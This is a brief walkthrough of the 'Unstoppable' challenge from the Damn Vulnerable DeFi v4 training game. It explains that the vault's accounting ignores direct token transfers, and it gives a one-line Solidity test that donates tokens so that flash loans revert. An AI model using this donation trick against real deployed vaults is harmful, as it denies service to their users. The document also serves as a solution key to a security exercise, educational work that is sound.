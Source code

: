 # Damn Vulnerable DeFi v4 Walkthorugh

## 1. [UNSTOPPABLE](https://www.damnvulnerabledefi.xyz/challenges/unstoppable/)

Condition: Prevent `UnstoppableVault.flashLoan()` from successfully executing.

### [PoC](https://github.com/CanonicalJP/damn-vulnerable-defi-v4/blob/master/test/unstoppable/Unstoppable.t.sol)

The balance of `UnstoppableVault` is not accounted for unexpected changes (e.g. an ERC20 transfer), by just transfering an small amount to the vault, the below condition fail and revert

https://github.com/CanonicalJP/damn-vulnerable-defi-v4/blob/84b762cb27b1c44cbd2f1ba6caeaaa2805d12a69/src/unstoppable/UnstoppableVault.sol#L84-L85

```solidity
function test_unstoppable() public checkSolvedByPlayer {
    token.transfer(address(vault), 1e18);
}
```

